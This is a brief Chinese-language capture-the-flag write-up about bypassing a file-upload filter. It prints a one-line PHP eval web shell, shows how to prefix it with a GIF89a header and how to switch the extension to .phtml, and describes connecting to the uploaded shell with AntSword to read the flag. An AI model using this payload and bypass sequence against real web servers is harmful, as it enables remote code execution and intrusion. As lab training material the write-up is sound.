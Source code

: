 上传jpg格式的一句话木马
提示不是真正的图片，加上`GIF89a`绕过图片头检测
提示有`<?`，用旧式标签`<script language='php'>@eval($_POST[shell]);</script>`
可以成功上传了，用BP改后缀名
试到phtml才可以成功上传
然后猜测上传目录是upload，访问成功
用蚁剑连接上传的文件，`.../upload/filename`
在根目录中一路往上找到flag
